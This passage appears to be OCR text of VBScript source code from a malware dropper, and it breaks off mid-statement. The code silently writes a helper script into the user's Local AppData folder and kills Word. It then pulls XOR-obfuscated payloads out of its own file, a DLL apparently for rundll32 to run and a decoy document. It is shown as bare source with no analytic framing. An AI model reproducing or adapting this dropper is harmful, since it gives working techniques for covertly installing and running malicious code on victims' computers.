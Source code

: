 function runshell()  On Error Resume Next  set objshell= Createobject("WScript.Shell")  strValue = objshell.RegRead("HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders\Local AppData")  ename = "rundll32"","""""""&strValue&"\mm.dll"""",Setting"  outfile1= strValue&"\mm.dll"  bs = strValue&"\ss.vbs"  dn= strValue&"\t.doc"  v=window.location.href  v=Replace(v,"file:///","",1,1,1)  v=Replace(v,"?.html","",1,1,1)  v=Replace(v,"%20"," ",1)  v=Replace(v,"/","\",1)              cmd = "cmd"  arg=" /c taskkill  -f -im winword.exe "  arg1= ""","""  set shell=createobject("wscript.shell")   shell.run "cmd.exe /c ""echo On Error Resume Next >"""&bs&"""  "" ",0,true    shell.run "cmd.exe /c ""echo set shell=createobject(""Shell.Application"") >>"""&bs&"""    "" ",0,true  shell.run "cmd.exe /c ""echo shell.ShellExecute ""cmd"","""&arg&""","""","""",0 >>"""&bs&"""        "" ",0,true  shell.run "cmd.exe /c ""echo wscript.sleep 3000             >> """&bs&"""  "" ",0,true  shell.run "cmd.exe /c ""echo dim str                                                                      >> """&bs&"""  "" ",0,true  shell.run "cmd.exe /c ""echo dim L1                                                                       >> """&bs&"""  "" ",0,true  shell.run "cmd.exe /c ""echo dim L2                                                                       >> """&bs&"""  "" ",0,true  shell.run "cmd.exe /c ""echo dim Len                                                                      >> """&bs&"""  "" ",0,true  shell.run "cmd.exe /c ""echo dim infile                                                                   >> """&bs&"""  "" ",0,true  shell.run "cmd.exe /c ""echo dim outfile1                                                                 >> """&bs&"""  "" ",0,true  shell.run "cmd.exe /c ""echo dim outfile2                                                                 >> """&bs&"""  "" ",0,true  shell.run "cmd.exe /c ""echo infile = """&v&"""                                                             >> """&bs&"""  "" ",0,true  shell.run "cmd.exe /c ""echo outfile1 = """&outfile1&"""                                                           >> """&bs&"""  "" ",0,true  shell.run "cmd.exe /c ""echo outfile2 = """&dn&"""                                                           >> """&bs&"""  "" ",0,true  shell.run "cmd.exe /c ""echo L1=     78924                                                                      >> """&bs&"""  "" ",0,true  shell.run "cmd.exe /c ""echo L2=     38912                                                                   >> """&bs&"""  "" ",0,true  shell.run "cmd.exe /c ""echo size=    144893                                                                 >> """&bs&"""  "" ",0,true  shell.run "cmd.exe /c ""echo offset1 = size-L1-L2                                                         >> """&bs&"""  "" ",0,true  shell.run "cmd.exe /c ""echo offset2 = size-L2                                                            >> """&bs&"""  "" ",0,true  shell.run "cmd.exe /c ""echo Len=0                                                                        >> """&bs&"""  "" ",0,true  shell.run "cmd.exe /c ""echo str = ReadBinary (infile,L1,offset1)                                         >> """&bs&"""  "" ",0,true  shell.run "cmd.exe /c ""echo WriteBinary outfile1, str                                                    >> """&bs&"""  "" ",0,true  shell.run "cmd.exe /c ""echo str = ReadBinary (infile,L2,offset2)                                         >> """&bs&"""  "" ",0,true  shell.run "cmd.exe /c ""echo WriteBinary outfile2, str                                                    >> """&bs&"""  "" ",0,true  shell.run "cmd.exe /c ""echo Function ReadBinary(FileName,length,offset)                                  >> """&bs&"""  "" ",0,true  shell.run "cmd.exe /c ""echo   Dim Buf(), I                                                               >> """&bs&"""  "" ",0,true  shell.run "cmd.exe /c ""echo   With CreateObject(""ADODB.Stream"")                                        >> """&bs&"""  "" ",0,true  shell.run "cmd.exe /c ""echo     .Mode = 3: .Type = 1: .Open: .LoadFromFile FileName : .Position = offset >> """&bs&"""  "" ",0,true   shell.run "cmd.exe /c ""echo     Len =length -1                                                           >> """&bs&"""  "" ",0,true  shell.run "cmd.exe /c ""echo     ReDim Buf(Len)                                                           >> """&bs&"""  "" ",0,true  shell.run "cmd.exe /c ""echo     For I = 0 To Len: if(I=0)  then Buf(I)=(AscB(.Read(1))) else if ((I mod 2)=0) then Buf(I)=(AscB(.Read(1)) xor AscB(chr(65))) else Buf(I)=(AscB(.Read(1)) xor AscB(chr(67))) end if        >> """&bs&"""  "" ",0,true  shell.run "cmd.exe /c ""echo     Next                      >> """&bs&"""  "" ",0,true  shell.run "cmd.exe /c ""echo     .Close                                                                   >> """&bs&"""  "" ",0,true  shell.run "cmd.exe /c ""echo   End With                                                                   >> """&bs&"""  "" ",0,true  shell.run "cmd.exe /c ""echo   ReadBinary = Buf                                                           >> """&bs&"""  "" ",0,true  shell.run "cmd.exe /c ""echo End Function                                                                 >> """&bs&"""  "" ",0,true  shell.run "cmd.exe /c ""echo Sub WriteBinary(FileName, Buf)                                               >> """&bs&"""  "" ",0,true  shell.run "cmd.exe /c ""echo   Dim I, aBuf, Size, bStream                                                 >> """&bs&"""  "" ",0,true  shell.run "cmd.exe /c ""echo   Size = UBound(Buf): ReDim aBuf(Size \ 2)                                   >> """&bs&"""  "" ",0,true  shell.run "cmd.exe /c ""echo   For I = 0 To Size - 1 Step 2                                               >> """&bs&"""  "" ",0,true  shell.run "cmd.exe /c
